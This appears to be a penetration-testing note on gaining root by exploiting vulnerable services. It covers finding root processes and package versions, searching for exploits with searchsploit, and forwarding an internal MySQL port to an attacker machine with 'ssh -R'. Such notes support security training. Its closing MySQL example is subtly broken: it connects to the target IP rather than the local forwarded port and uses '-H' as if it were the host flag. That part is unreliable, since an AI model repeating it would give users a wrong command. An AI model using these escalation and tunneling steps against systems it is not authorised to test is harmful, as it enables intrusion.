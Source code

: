 ```yaml
---
description: Exploiting vulnerable services
---
```


# Using Service Exploits

Services are programs which run in the background, accepting inputs or doing regular tasks. If vulnerable services are running as root, we can exploit them to get command execution as root.

## Find services running as root

```bash
ps aux | grep "^root"
```

with any results identify the version n umber of the program being executed.

## Find versions with dpkg

```bash
dpkg -l | grep <package_name> 
```

## Find versions with rpm

```bash
rpm -qa | grep <package_name>
```

## Find service ports

```bash
netstat -nl
```

## Finding service exploits

### searchsploit

```
searchsploit <package_name_and_version>
```

Google and web search

## Local port forwarding

Certain root processes can be bound to a local/internal port through which it communicates. When an exploit for that particular service cannot be executed on the target machine, local port forwarding can be a go to method.

To identify services running local ports we can use the `netstat` command and looking for address `127.0.0.1`.

Using ssh a service running on a target machine's internal port can be forwarded to the attacker machine.

```
ssh -R <local-port>:127.0.0.1:<service-port> username@attackermachine
```

The exploit code for that service can be run on the local machine of the attacker at whichever port is chosen.&#x20;

Eg: Let's say there is a mysql service running on port `127.0.0.1:3306` of the target at `10.10.10.1`. We are attacking from `10.10.10.2`. We want to bind the service to our port `9999`. On the target machine we execute:

```
ssh -R 9999:127.0.0.1:3306 attacker@10.10.10.2
```

Now on attacker machine we can bind to the mysql service running on the target using:

```
mysql -u <username-on-target-machine/root> -H 10.10.10.1 -P 9999
```

Our traffic gets routed through the SSH connection to the target's mysql service.

## Leveraging service capabilities



